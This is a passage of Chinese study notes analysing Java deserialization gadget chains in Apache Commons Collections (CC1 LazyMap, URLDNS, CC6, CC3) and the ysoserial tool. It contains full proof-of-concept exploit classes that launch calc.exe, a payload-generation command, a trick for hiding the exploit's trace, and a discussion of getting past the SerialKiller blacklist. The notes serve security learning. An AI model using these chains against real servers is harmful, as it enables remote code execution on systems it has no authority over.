            return new LazyMap(map, factory);
        }
    
    ```

- ```java
        //-----------------------------------------------------------------------
        public Object get(Object key) {
            // create value for key if key is not currently in the map
            if (map.containsKey(key) == false) {
                Object value = factory.transform(key);
                map.put(key, value);
                return value;
            }
            return map.get(key);
        }
    ```

- **当调用LazyMap.get()方法的时候，如果传入的key不存在，那么就自动生成一个(key，value)存在到map中。key会被传入transform执行。**

- find usage找一找，发现4千多条，cc1用的AnnotationInvocationHandler类，不过这次是`invoke`方法。所以要继续找Gadget链了。

    - ```java
        public Object invoke(Object proxy, Method method, Object[] args) {
            //获取要调用的方法名和传入该方法的参数类型
            String member = method.getName();
            Class<?>[] paramTypes = method.getParameterTypes();
              // Handle Object and Annotation methods
          //对方法名和参数类型做一些限制，方法参数数量必须为0，方法名不能为equals
          if (member.equals("equals") && paramTypes.length == 1 &&
              paramTypes[0] == Object.class)
              return equalsImpl(args[0]);
          if (paramTypes.length != 0)
              throw new AssertionError("Too many parameters for an annotation method");
        
            //方法名不能为toString、hashCode、annotationType
          switch(member) {
          case "toString":
              return toStringImpl();
          case "hashCode":
              return hashCodeImpl();
          case "annotationType":
              return type;
          }
        
          // Handle annotation member accessors
          //lazymap.get()就会调用了。
          Object result = memberValues.get(member);
        
          if (result == null)
              throw new IncompleteAnnotationException(type, member);
        
          if (result instanceof ExceptionProxy)
              throw ((ExceptionProxy) result).generateException();
        
          if (result.getClass().isArray() && Array.getLength(result) != 0)
              result = cloneArray(result);
        
          return result;
        }
        ```

- 条件：对方法名和参数类型做一些限制，方法参数数量必须为0，方法名不能为equals，方法名不能为toString、hashCode、annotationType。

- **那什么时候会调用AnnotationInvocationHandler的invoke方法呢，find usage并没有找到有用的。**

- **这条链子用到了动态代理**。当调用到被代理对象的任何方法时（**这个方法满足上述条件**），都会先调用InvocationHandler接口中的invoke方法，而AnnotationInvocationHandler正好实现了该接口。

    - ```java
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
                Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
                ctor.setAccessible(true);
                InvocationHandler handler = (InvocationHandler) ctor.newInstance(Target.class, outerMap);//得到我们构造好的 AnnotationInvocationHandler类实例
        
                //创建一个Map代理类,当map对象任意函数调用的时候，都会执行handler的invoke函数
                Map proxymap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        ```

- map类的函数需要满足，方法参数数量必须为0，方法名不能为equals，方法名不能为toString、hashCode、annotationType。这样的函数有很多，`entrySet()`函数就是其中一个。

- 再找找哪里调用了这个函数。有很多，而且发现`AnnotationInvocationHandler`的`readObject`方法调用了，这就直接找到source了。

    - ```java
            private void readObject(java.io.ObjectInputStream s)
                throws java.io.IOException, ClassNotFoundException {
                s.defaultReadObject();
        
                // Check to make sure that types have not evolved incompatibly
        
                AnnotationType annotationType = null;
                try {
                    annotationType = AnnotationType.getInstance(type);
                } catch(IllegalArgumentException e) {
                    // Class is no longer an annotation type; time to punch out
                    throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
                }
        
                Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        
                // If there are annotation members without values, that
                // situation is handled by the invoke method.
           		//找到了。
                for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        ```

- 所以就再生成一个AnnotationInvocationHandler对象，为了反序列化用，这个时候传入的是代理类。

    - ```java
        InvocationHandler instance = (InvocationHandler) ctor.newInstance(Target.class, proxymap);
        ```

- poc

    - ```java
        package cc;
        
        import org.apache.commons.collections.Transformer;
        import org.apache.commons.collections.functors.ChainedTransformer;
        import org.apache.commons.collections.functors.ConstantTransformer;
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.map.LazyMap;
        
        import java.io.*;
        import java.lang.annotation.Target;
        import java.lang.reflect.Constructor;
        import java.lang.reflect.InvocationHandler;
        import java.lang.reflect.Proxy;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC1_LazyMap {
            public static void main(String[] args) throws Exception{
                Transformer[] transformers = new Transformer[] {
                        new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                        new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
                Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
        
                Map innerMap = new HashMap();   //实例化一个Map对象
                Map outerMap = LazyMap.decorate(innerMap, transformedChain); //构造一个LazyMap对象。
        
        
                Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
                Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
                ctor.setAccessible(true);
                InvocationHandler handler = (InvocationHandler) ctor.newInstance(Target.class, outerMap);//得到我们构造好的 AnnotationInvocationHandler类实例
        
                //创建一个Map代理类,当map对象任意函数调用的时候，都会执行handler的invoke函数
                Map proxymap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        
                //再生成一个AnnotationInvocationHandler对象，为了反序列化用，这个时候传入的是代理类。
                InvocationHandler instance = (InvocationHandler) ctor.newInstance(Target.class, proxymap);
        
                FileOutputStream f = new FileOutputStream("./test.txt");
                ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
                out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化
                out.flush();
                out.close();
                //开始反序列化test.txt文件
                Unser();
            }
        
            public static void Unser() throws IOException,ClassNotFoundException{
                FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
                ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
                CC1_TransformedMap.User u= (CC1_TransformedMap.User) ins.readObject();   //反序列化
                System.out.println("反序列化成功！");
                ins.close();
            }
            class User {
            }
        }
        
        ```

### 反序列化工具ysoserial.jar

- ysoserial是一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。项目地址：https://github.com/frohoff/ysoserial。可以自己编译，也可以直接下载jar文件。
- ysoserial提供了多种基于InstantiateTransformer/InvokerTransformer构建调用链方式：[LazyMap](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)、[PriorityQueue](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java)、[BadAttributeValueExpException](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)、[HashSet](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)、[Hashtable](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections7.java)，不同的利用链需要不同的依赖和jdk版本。
- 利用ysoserial.jar，我们可以不用自己写payload了。
- 查看帮助 ：java -jar     .\ysoserial.jar
  
- 不同利用链依赖要求：

  ```txt
  CommonsCollections1所需第三方库文件: commons-collections: 3.2.1
  
  CommonsCollections2所需第三方库文件: commons-collections4: 4.0
  
  CommonsCollections3所需第三方库文件: commons-collections: 3.2.1(CommonsCollections1的变种)
  
  CommonsCollections4所需第三方库文件: commons-collections4: 4.0(CommonsCollections2的变种)
  
  CommonsCollections5,6,7,10用的还是commons-collections: 3.2.1， jdk用7或8都可以。
  
  CommonsCollections9适用于3.2.1
  
  Groovy1所需第三方库文件: org.codehaus.groovy:groovy:2.3.9
  
  Jdk7u21所需第三方库文件: 只需JRE版本
  
  Spring1所需第三方库文件: spring框架所含spring-core:4.1.4.RELEASE,spring-beans:4.1.4.RELEASE
  ```
- 构造反序列化payload：

  - **java -jar ysoserial.jar CommonsCollections5 calc.exe** **>** **payload.bin**    在windows下运行生成payload会有问题，linux下就正常了

  

- cc链：

  - apache commons-collections组件反序列化漏洞的反射链也称为CC链。
  - 

### ysoserial.jar源码分析

- idea反编译jar文件后，打开payload目录，各种利用链都在这。
- 

#### cc1—LazyMap分析：

- ysoserial并没有用到transformedmap，transformedMap最早出现在Code White的这篇Slide中：[https://www.slideshare.net/codewhitesec/exploiting...](https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478) 。

- 代码和我们上面写的差不多，就是transfomer链最后通过反射传入的。之前的transfomer链就一个transfomers，真正的链子在transformers数组里面。

    - ```java
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
        ```


- 所以最后通过反射改掉了transfomer链的数组为真正的transformers数组。为什么这样做？

  - 在使用Proxy代理了map对象后，我们在任何地方执行map的方法就会触发Payload弹出计算器，所 以，在本地调试代码的时候，因为调试器会在下面调用一些toString之类的方法，导致不经意间触发了 命令。
  - 先使用transformerChain构造利用链，之后在构造好反序列化对象后，将transformerChain中的Transformer链替换为真正的链，是**为了避免在构造利用链时触发命令执行**。
  - 利用链都构造好了，再修改transformerChain，有用吗？
    因为transformerChain只是引用，用来序列化的对象内储存的也是引用，，引用相当于指针，二者访问的是同一块内存的数据，而我们修改的正是这块内存的数据，所以当然有用。

- 总结：

  - ysoserial在构造Transformers时，为什么要用那么多反射?

    - 因为Runtime类没有继承Serializable接口，所以不能被序列化，在序列化时会出错，使用反射可以解决这个问题。
  - 为什么使用LazyMap，不使用HashMap？InvocationHandler可以换成其它类吗？

    - 不知道，反正这两个都可以。
  - 为什么Transformers数组最后要加一个ConstantTransformer(1)？

    - 如果这里没有 ConstantTransformer，命令进程对象将会被 LazyMap#get 返回，导致我们在异常信息里能看到这个 特征：

        - ```cmd
            Exception in thread "main" java.lang.ClassCastException: 
            java.lang.ProcessImpl cannot be cast to java.util.Set
            ```

    - 如果我们增加一个 ConstantTransformer(1) 在TransformChain的末尾，异常信息将会变成 `java.lang.Integer cannot be cast to java.util.Set` ，隐蔽了启动进程的日志特征：

### 其他利用链

#### URLDNS—反序列化检测链

- URLDNS 就是ysoserial中⼀个利⽤链的名字，但准确来说，这个其实不能称作“利⽤链”。因为其参数不 是⼀个可以“利⽤”的命令，⽽仅为⼀个URL，其能触发的结果也不是命令执⾏，⽽是⼀次DNS请求。 虽然这个“利⽤链”实际上是不能“利⽤”的，但因为其如下的优点，⾮常适合我们在检测反序列化漏洞时 使⽤： 

    - 使⽤Java内置的类构造，对第三⽅库没有依赖 
    - 在⽬标没有回显的时候，能够通过DNS请求得知是否存在反序列化漏洞 

- 我们打开看看ysoserial的poc

    - ```java
        public Object getObject(final String url) throws Exception {
        
            //Avoid DNS resolution during payload creation
            //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
            URLStreamHandler handler = new SilentURLStreamHandler();
        
            HashMap ht = new HashMap(); // HashMap that will contain the URL
            URL u = new URL(null, url, handler); // URL to use as the Key
            ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
        
            Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
        
            return ht;
        }
        ```

- 返回了一个HashMap对象，传入了一个键值对（URL，any），并设置了URL对象的hashCode的值为-1。那么，我们可以直奔 HashMap 类的 readObject ⽅法：

    - 在最后的代码可以看到将 HashMap 的键名计算了hash

        - ```java
             putVal(hash(key), key, value, false, false);
            ```

    - 查看hash()

        - ```java
                static final int hash(Object key) {
                    int h;
                    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
                }
            ```

    - 发现调用了key.hashCode()，也就是URL对象的hashCode()函数，继续查看。

        - ```java
                public synchronized int hashCode() {
                    if (hashCode != -1)
                        return hashCode;
            
                    hashCode = handler.hashCode(this);
                    return hashCode;
                }
            ```

    - 此时， handler 是 URLStreamHandler 对象（的某个⼦类对象），继续跟进其 hashCode ⽅法

        - ```java
                protected int hashCode(URL u) {
                    int h = 0;
            
                    // Generate the protocol part.
                    String protocol = u.getProtocol();
                    if (protocol != null)
                        h += protocol.hashCode();
            
                    // Generate the host part.
                    InetAddress addr = getHostAddress(u);
            ```

    - 这⾥有调⽤ getHostAddress ⽅法，继续跟进：

        - ```java
                protected synchronized InetAddress getHostAddress(URL u) {
                    if (u.hostAddress != null)
                        return u.hostAddress;
            
                    String host = u.getHost();
                    if (host == null || host.equals("")) {
                        return null;
                    } else {
                        try {
                            u.hostAddress = InetAddress.getByName(host);
                        } catch (UnknownHostException ex) {
                            return null;
                        } catch (SecurityException se) {
                            return null;
                        }
                    }
                    return u.hostAddress;
                }
            ```

        - 这⾥ InetAddress.getByName(host) 的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次 DNS查询。

- 到这⾥就不必要再跟了。 我们⽤⼀些第三⽅的反连平台就可以查看到这次请求，证明的确存在反序列化漏洞

#### cc6_TiedMapEntry_lazymap—高jdk版本可用

- jdk1.8.0_341复现成功

- 我们详细分析了CommonsCollections1这个利⽤链和其中的LazyMap原理。但是我们说到，在 Java 8u71以后，这个利⽤链不能再利⽤了，主要原因 是 `sun.reflect.annotation.AnnotationInvocationHandler#readObject` 的逻辑变化了（那我们就找其他Gadget就好了，也是利用LazyMap）。

- 在ysoserial中，CommonsCollections6可以说是commons-collections这个库中相对⽐较通⽤的利用链，**为了解决高版本Java的利⽤问题，我们先来看看这个利⽤链。**

- 不会按照ysoserial中的代码进⾏讲解，原因是ysoserial的代码过于复杂了，而且其实⽤到了⼀些没必要的类。

- 简化版利⽤链

    - ```java
        /*
         Gadget chain:
         java.io.ObjectInputStream.readObject()
         java.util.HashMap.readObject()
         java.util.HashMap.hash()
         
        org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
         
        org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
         org.apache.commons.collections.map.LazyMap.get()
         
        org.apache.commons.collections.functors.ChainedTransformer.transform()
         
        org.apache.commons.collections.functors.InvokerTransformer.transform()
         java.lang.reflect.Method.invoke()
         java.lang.Runtime.exec()
        */
        ```

- TiedMapEntry存在

    - ```java
        
        /**
        * Constructs a new entry with the given Map and key.
        *
        * @param map  the map
        * @param key  the key
        */
        public TiedMapEntry(Map map, Object key) {
            super();
            this.map = map;
            this.key = key;
        }
        
        /**
        * Gets the value of this entry direct from the map.
        * 
        * @return the value
        */
        public Object getValue() {
            return map.get(key);
        }
        ```

- 再find usage找找`getValue()`的调用，这个类本身就找到hashCode函数会调用。欲触发LazyMap利⽤链，要找到就是哪⾥调⽤了 `TiedMapEntry#hashCode` 。

    - ```java
            public int hashCode() {
                Object value = getValue();
                return (getKey() == null ? 0 : getKey().hashCode()) ^
                       (value == null ? 0 : value.hashCode()); 
            }
        ```

- ysoserial中，是利⽤ java.util.HashSet#readObject 到 HashMap#put() 到 HashMap#hash(key) 最后到 TiedMapEntry#hashCode() 。 实际上，在 java.util.HashMap#readObject 中就可以找到 HashMap#hash() 的调⽤，去掉了 最前⾯的两次调用。

- 继续找，HashMap#hash，

    - TiedMapEntry由key传入。

    - ```java
        static final int hash(Object key) {
            int h;
            return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
        }
        ```

- 继续找，HashMap#readObject()

    - ```java
        private void readObject(java.io.ObjectInputStream s)
            throws IOException, ClassNotFoundException {
            // Read in the threshold (ignored), loadfactor, and any hidden stuff
            s.defaultReadObject();
            reinitialize();
            if (loadFactor <= 0 || Float.isNaN(loadFactor))
                throw new InvalidObjectException("Illegal load factor: " +
                                                 loadFactor);
            s.readInt();                // Read and ignore number of buckets
            int mappings = s.readInt(); // Read number of mappings (size)
            if (mappings < 0)
                throw new InvalidObjectException("Illegal mappings count: " +
                                                 mappings);
            else if (mappings > 0) { // (if zero, use defaults)
                // Size the table using given load factor only if within
                // range of 0.25...4.0
                float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
                float fc = (float)mappings / lf + 1.0f;
                int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                           DEFAULT_INITIAL_CAPACITY :
                           (fc >= MAXIMUM_CAPACITY) ?
                           MAXIMUM_CAPACITY :
                           tableSizeFor((int)fc));
                float ft = (float)cap * lf;
                threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                             (int)ft : Integer.MAX_VALUE);
                @SuppressWarnings({"rawtypes","unchecked"})
                Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
                table = tab;
        
                // Read the keys and values, and put the mappings in the HashMap
                for (int i = 0; i < mappings; i++) {
                    @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                    @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                    putVal(hash(key), key, value, false, false);
                }
            }
        }
        ```

    - 在HashMap的readObject⽅法中，调⽤到了 hash(key)，key为HashMap的一个键，所以我们直接`.put(tiedMapEntry, "123")`就行。

- 写poc

    - ```java
        package cc;
        
        import org.apache.commons.collections.Transformer;
        import org.apache.commons.collections.functors.ChainedTransformer;
        import org.apache.commons.collections.functors.ConstantTransformer;
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.keyvalue.TiedMapEntry;
        import org.apache.commons.collections.map.LazyMap;
        
        import java.io.*;
        import java.lang.reflect.Field;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC6 {
            public static void main(String[] args) throws Exception{
        
                Transformer[] transformers = new Transformer[] {
                        new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                        new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
                };
                //创建一个fake利用链，最后的时候把这个利用链换成上面的
                Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
                Transformer transformedChain = new ChainedTransformer(fakeTransformers);  //实例化一个反射链
        
                //构造一个LazyMap对象。
                Map innerMap = new HashMap();
                Map outerMap = LazyMap.decorate(innerMap, transformedChain);
        
                //拿到了⼀个恶意的LazyMap对象 outerMap ，将其作为 TiedMapEntry 的map属性
                TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        
                //构建一个新的HashMap对象，最后，我就可以将这个 expMap 作为对象来序列化了
                Map expMap = new HashMap();
                expMap.put(tme, "valuevalue");
        
                //outerMap.remove("keykey");
        
                // 将真正的transformers数组设置进来
                Field fd = ChainedTransformer.class.getDeclaredField("iTransformers");
                fd.setAccessible(true);
                fd.set(transformedChain, transformers);
        
                FileOutputStream f = new FileOutputStream("./test.txt");
                ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
                out.writeObject(expMap);  //将我们构造的 AnnotationInvocationHandler类进行序列化
                out.flush();
                out.close();
                //开始反序列化test.txt文件
                Unser();
            }
        
            public static void Unser() throws IOException,ClassNotFoundException{
                FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
                ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
                User u= (User) ins.readObject();   //反序列化
                System.out.println("反序列化成功！");
                ins.close();
            }
            class User {
            }
        }
        
        ```

- 发现并没用弹窗，下断点到LazyMap的get函数看看。

    - 

    - 发现map有个key叫`keykey`，我们也没放东西给LazyMap啊，怎么多出一个东西？

    - 我们只给TiedMapEntry放入了一个key叫`keykey`，但是TiedMapEntry构造函数并没有修改我们的LazyMap啊

        - ```java
            //拿到了⼀个恶意的LazyMap对象 outerMap ，将其作为 TiedMapEntry 的map属性
            TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
            ```

        - ```java
            public TiedMapEntry(Map map, Object key) {
                super();
                this.map = map;
                this.key = key;
            }
            ```

    - 其实，这个关键点就出在 `expMap.put(tme, "valuevalue");` 这个语句⾥⾯

        - ```java
            public V put(K key, V value) {
                    return putVal(hash(key), key, value, false, true);
                }
            ```

        - HashMap的put⽅法中，也有调⽤到 `TiedMapEntry.hashCode(key)` ：

            - ```java
                static final int hash(Object key) {
                    int h;
                    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
                }
                ```

        - 这⾥就导致 LazyMap 这个利⽤链在这⾥被调⽤了⼀遍，然后LazyMap就去get("keykey")，并把这个key保存下来了。

    - 所以我们把这个key删掉即可

- poc

    - ```java
        package cc;
        
        import org.apache.commons.collections.Transformer;
        import org.apache.commons.collections.functors.ChainedTransformer;
        import org.apache.commons.collections.functors.ConstantTransformer;
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.keyvalue.TiedMapEntry;
        import org.apache.commons.collections.map.LazyMap;
        
        import java.io.*;
        import java.lang.reflect.Field;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC6 {
            public static void main(String[] args) throws Exception{
        
                Transformer[] transformers = new Transformer[] {
                        new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                        new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
                };
                //创建一个fake利用链，最后的时候把这个利用链换成上面的
                Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
                Transformer transformedChain = new ChainedTransformer(fakeTransformers);  //实例化一个反射链
        
                //构造一个LazyMap对象。
                Map innerMap = new HashMap();
                Map outerMap = LazyMap.decorate(innerMap, transformedChain);
        
                //拿到了⼀个恶意的LazyMap对象 outerMap ，将其作为 TiedMapEntry 的map属性
                TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        
                //构建一个新的HashMap对象，最后，我就可以将这个 expMap 作为对象来序列化了
                Map expMap = new HashMap();
                expMap.put(tme, "valuevalue");
        
                outerMap.remove("keykey");
        
                // 将真正的transformers数组设置进来
                Field fd = ChainedTransformer.class.getDeclaredField("iTransformers");
                fd.setAccessible(true);
                fd.set(transformedChain, transformers);
        
                FileOutputStream f = new FileOutputStream("./test.txt");
                ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
                out.writeObject(expMap);  //将我们构造的 AnnotationInvocationHandler类进行序列化
                out.flush();
                out.close();
                //开始反序列化test.txt文件
                Unser();
            }
        
            public static void Unser() throws IOException,ClassNotFoundException{
                FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
                ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
                User u= (User) ins.readObject();   //反序列化
                System.out.println("反序列化成功！");
                ins.close();
            }
            class User {
            }
        }
        
        ```

#### cc3—在sink处改进—InstantiateTransformer

- 我们既然已经有CommonsCollections6这样通杀的利用链了，**为什么还需要一个 TemplatesImpl 的链呢?**

    - 其实我们在学习PHP时，也曾遇到过一个场景，通过 call_user_func 造成 的代码执行，和通过 eval 造成的代码执行，哪一种更有价值？相信很多曾被assert、system等函数不 能使用困扰过的同学都会选择后者，这里也一样。 
    - 通过 TemplatesImpl 构造的利用链，理论上可以执行任意Java代码，这是一种非常通用的代码执行漏 洞，不受到对于链的限制，特别是这几年**内存马**逐渐流行以后，**执行任意Java代码**的需求就更加浓烈了。

- 上⼀篇⽂章我们认识了Java中加载字节码的⼀些⽅法，其中介绍了 TemplatesImpl 。 TemplatesImpl 是⼀个可以加载字节码的类，通过调⽤其 newTransformer() ⽅法，即可执⾏这段字节码的类构造器。 那么，我们是否可以在反序列化漏洞中，利⽤这个特性来执⾏任意java代码呢？

- 我们先回忆⼀下CommonsCollections1

    - ```java
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
        
        Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
        
        Map innerMap = new HashMap();   //实例化一个Map对象
        innerMap.put("value", "value");
        
        Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入
        
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例
        ```

- ⽽我们⼜学习了如何利⽤ TemplatesImpl 执⾏字节码：

    - ```java
        public static void main(String[] args) throws Exception {
        
                byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAbDAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAKAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAADAALAAAABAABAAwAAQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA4ABAAPAAwAEAABABAAAAACABE=");
                TemplatesImpl obj = new TemplatesImpl();
                setFieldValue(obj, "_bytecodes", new byte[][] {code});
                setFieldValue(obj, "_name", "HelloTemplatesImpl");
                setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
                obj.newTransformer();
        
        }
        ```

- 我们只需要结合这两段POC，即可很容易地改造出⼀个执⾏任意字节码的CommonsCollections利⽤ 链：只需要将第⼀个demo中InvokerTransformer执⾏的“⽅法”改 成 TemplatesImpl::newTransformer() ，即为

    - ```java
        Transformer[] transformers = new Transformer[]{
         new ConstantTransformer(obj),
         new InvokerTransformer("newTransformer", null, null)
        };
        ```

- 不过，此时查看ysoserial的代码，会发现CommonsCollections3和上面，准确来说，是 没有使用到`InvokerTransformer`

- 原因是什么呢？

    - 2015年初，@frohoff和@gebl发布了Talk《Marshalling Pickles: how deserializing objects will ruin your day》，以及Java反序列化利⽤⼯具ysoserial，随后引爆了安全界。开发者们⾃然会去找寻⼀种安 全的过滤⽅法，于是类似[SerialKiller](https://github.com/ikkisoft/SerialKiller)这样的⼯具随之诞⽣。
    -  SerialKiller是⼀个Java反序列化过滤器，可以通过⿊名单与⽩名单的⽅式来限制反序列化时允许通过的 类。在其发布的第⼀个版本代码中，我们可以看到其给出了最初的⿊名单

- 这个⿊名单中InvokerTransformer赫然在列，也就切断了CommonsCollections1的利⽤链。有攻就有 防，

- ysoserial随后增加了不少新的Gadgets，其中就包括CommonsCollections3。 CommonsCollections3的⽬的很明显，**就是为了绕过⼀些规则对InvokerTransformer的限制**。

-  CommonsCollections3并没有使⽤到InvokerTransformer来调⽤任意⽅法，⽽是⽤到了另⼀个 类， `com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter` 。 这个类的构造⽅法中调⽤了 `(TransformerImpl) templates.newTransformer()` ，免去了我们使⽤ InvokerTransformer⼿⼯调⽤ newTransformer() ⽅法这⼀步

    - ```java
            public TrAXFilter(Templates templates)  throws
                TransformerConfigurationException
            {
                _templates = templates;
                _transformer = (TransformerImpl) templates.newTransformer();
                _transformerHandler = new TransformerHandlerImpl(_transformer);
                _useServicesMechanism = _transformer.useServicesMechnism();
            }
        ```

- 当然，缺少了InvokerTransformer，TrAXFilter的构造⽅法也是⽆法调⽤的。这⾥会⽤到⼀个新的 Transformer，就是 `org.apache.commons.collections.functors.InstantiateTransformer` 。 InstantiateTransformer也是⼀个实现了Transformer接⼝的类，**他的作⽤就是调⽤构造⽅法**。

- 所以，我们实现的⽬标就是，利⽤ `InstantiateTransformer` 来调⽤到 TrAXFilter 的构造⽅法，再利 ⽤其构造⽅法⾥的 `templates.newTransformer()` 调⽤到 `TemplatesImpl` ⾥的字节码。

- 我们构造的Transformer调⽤链如下：

    - ```java
        Transformer[] transformers = new Transformer[]{
             new ConstantTransformer(TrAXFilter.class),
             new InstantiateTransformer(
             new Class[] { Templates.class },
             new Object[] { obj })
         };
        ```

